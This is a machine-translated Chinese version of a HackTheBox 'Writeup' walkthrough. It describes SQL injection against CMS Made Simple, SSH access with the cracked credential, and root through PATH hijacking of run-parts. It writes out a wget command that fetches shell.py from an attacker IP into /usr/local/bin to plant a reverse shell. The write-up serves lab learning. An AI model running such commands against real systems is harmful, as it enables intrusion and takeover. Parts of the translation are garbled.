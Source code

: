 # 写 HackTheBox 写

> 原文：<https://infosecwriteups.com/writeup-hackthebox-writeup-3c86bf40853b?source=collection_archive---------0----------------------->

## Writeup 本周退休，是一个非常简单的盒子，有一个有趣的技巧。我将从在`robots.txt`文件中找到一个不允许的条目开始。在访问被禁止的条目时，我看到了一个看起来像是用一个叫做`CMS Made Simple`的 CMS 托管的网站。该 CMS 有一个未经验证的 sqli 漏洞，我们通过利用 sqli 获取密码。我们使用从漏洞中找到的密码 SSH 到机器中，从而使用 cronjob 找到它。

![](img/502308f937e3fcb86f3323fd58cee96c.png)

信息卡

# 列举

像往常一样，让我们从 Nmap 扫描开始

![](img/ffdf4c3105c7a85fa7cdbe04c943eeca.png)

我们有两个港口开放 22 ( `**SSH**`)和 80 ( `**HTTP**`)

# 80 — HTTP

![](img/d2822efab5a271a7eb509ea85e3cc54f.png)

查看`**robots.txt**` 文件，我们有一个不允许的条目
**/writeup**

![](img/c8aae2f4a0d80c6eaa984e885f7370dd.png)

robots.txt 文件

让我们看看在“/ `writeup`”中有什么。我运行了 gobuster，它没有返回任何有用的信息，因为这个盒子有反 DoS 功能。

## /writeup 目录

![](img/1fa5332c74f37432484f79b5d77fbfe3.png)

**/撰写页面**

点击各种链接，直接浏览受尊敬的机器。我在检查网页源代码时发现了一个有趣的现象，那就是它使用的`**CMS**` 。

![](img/edf68d0a4d3b427d0718df511dc538e8.png)

CMS 变得简单

快速的`[**goole search**](https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQL-Injection.html)`给了我们有趣的结果。看来我们有一个未经认证的 SQL 注入，可以转储密码哈希。漏洞开发者也很友好地破解了这个杂凑。

 [## CMS 做了简单的 SQL 注入

### 信息安全服务、新闻、文件、工具、漏洞、咨询和白皮书

packetstormsecurity.com](https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQL-Injection.html) ![](img/1b9c3abc6bc3de8367cba0726cefd200.png)![](img/9d0eeafa1045d29c0b04a45cac9e4909.png)

在那里！我们已经得到了所有的细节。因为端口 80 没有任何登录页面，而且 SSH 是打开的，所以让我们尝试使用上面找到的凭证登录 SSH。

# 作为 JKR 的 Shell

![](img/8fb5af05248c54e18fe47a574f692fb7.png)

# root 权限

有趣的是，用户`**JKR**`属于`**STAFF (50)**`组。

> **staff** :允许用户在不需要 root 权限的情况下对系统(/usr/local)添加本地修改(注意/usr/local/bin 中的可执行文件在任何用户的 PATH 变量中，它们可能会“覆盖”同名的/bin 和/usr/bin 中的可执行文件)。与“adm”组相比，它与监控/安全更相关。

这个许可可能对我们有用。PSPY 向我们展示了一个有趣的过程。

![](img/455e5f8a0fe4171f12f6ef7ac1246097.png)

每次用户通过 SSH 登录时，都会有一个由 root 运行的进程为该用户设置路径，而`**run-parts**` **二进制文件在这里有一个本地路径(而不是/usr/local/bin/run-parts)。因为我们是 group
STAFF 的一部分，所以我们可以将自己的 run-parts 二进制文件放在/usr/local/bin 中。下次当新用户登录时，cron 会执行我们自己的** `**run-parts**` **，我们可以在这里做任何事情。**

让我们在`**/usr/local/bin/run-parts**`放一个反壳

![](img/b607abafbaa9ee51f59391ee873d1a96.png)

如果我们再次登录 SSH，我们会得到一个反向的 shell。

![](img/eca02130678d178ee3e86c43abecc793.png)

获得根壳

复制步骤:

> **>*wget***[***http://10 . 10 . 15 . 144/shell . py***](http://10.10.15.144/shell.py)***-O/usr/local/bin/run-parts
> >chmod+x/usr/local/bin/run-parts
> >确保添加那个语言的 shebang(这里是 python)。
> >在新的终端再次登录进入 SSH，并得到你的逆向 shell*** *。*

![](img/14257f354d48bbfe0b778d52718a2703.png)

“shell.py”的内容

就这样扎根了。

感谢和快乐的黑客，
Preetham。

# 额外的

## Cron 作业

**sh-c/usr/bin/env-I PATH =/usr/local/sbin:/usr/local/bin:/usr/bin:/sbin:/bin run-parts—lsbsysinit/etc/update-motd . d>/run/motd . dynamic . new**

update-motd 由 UNIX/Linux 系统管理员使用，他们通常通过在/etc/motd 文件中维护文本来与控制台和远程用户交流重要信息，这些文本由交互式 shell 登录上的 [**pam_motd**](http://manpages.ubuntu.com/manpages/trusty/man8/pam_motd.8.html) (8)模块显示。

> /etc/update-motd.d/*中的可执行脚本由 [**pam_motd**](http://manpages.ubuntu.com/manpages/trusty/man8/pam_motd.8.html) (8)作为根用户在
> 每次登录时执行，这些信息连接在/var/run/motd 中。脚本
> 的执行顺序由 [**运行部分**](http://manpages.ubuntu.com/manpages/trusty/man8/run-parts.8.html) (8) — lsbsysinit 选项决定(基本上是按字母顺序
> 执行，有一些注意事项)。

这个机器还有另一个 cronjob，它每 3 分钟清理一次/usr/local/bin /usr/local/sbin。

![](img/7eb03349a8b762308eded34a65dd9922.png)

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)
